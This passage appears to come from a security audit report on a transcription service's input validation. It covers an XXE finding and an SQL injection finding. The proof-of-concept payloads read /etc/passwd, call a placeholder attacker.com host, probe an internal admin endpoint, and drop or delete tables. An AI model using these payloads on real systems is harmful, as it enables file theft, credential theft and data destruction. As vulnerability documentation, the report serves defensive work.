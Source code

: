 **Vulnerability Type:** CWE-611 XML External Entity Reference  
**CVSS Score:** 8.2 (High)  
**Attack Vector:** Network  

#### Exploit Demonstration
```python
# PROOF OF CONCEPT - XXE Attack
xxe_payload = {
    "type": "test",
    "data": '''<!DOCTYPE foo [
        <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ]>
    <root>&xxe;</root>'''
}

# JSON message containing XML with external entity
# VULNERABLE: XXE patterns not sanitized from JSON content
```

#### Impact Assessment
- **Confidentiality:** HIGH - File disclosure
- **Integrity:** MEDIUM - Potential SSRF attacks
- **Availability:** LOW - Resource exhaustion possible

#### Evidence
```xml
<!-- XXE patterns that bypass validation: -->
<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "http://attacker.com/steal">]>

<!-- Server-Side Request Forgery via XXE: -->
<!ENTITY xxe SYSTEM "http://internal-service:8080/admin">
```

### 🚨 CVE-4: SQL Injection Partial Detection (HIGH)

**Vulnerability Type:** CWE-89 SQL Injection  
**CVSS Score:** 8.1 (High)  
**Attack Vector:** Network  

#### Exploit Demonstration
```python
# PROOF OF CONCEPT - SQL Injection
sql_injection_payloads = [
    "'; DROP TABLE transcriptions; --",
    "1' OR '1'='1' --",
    "admin'/**/UNION/**/SELECT/**/password/**/FROM/**/users--",
    "1; DELETE FROM transcriptions WHERE id > 0"
]

# Some patterns detected, others bypass validation
# VULNERABLE: Incomplete SQL injection detection
```
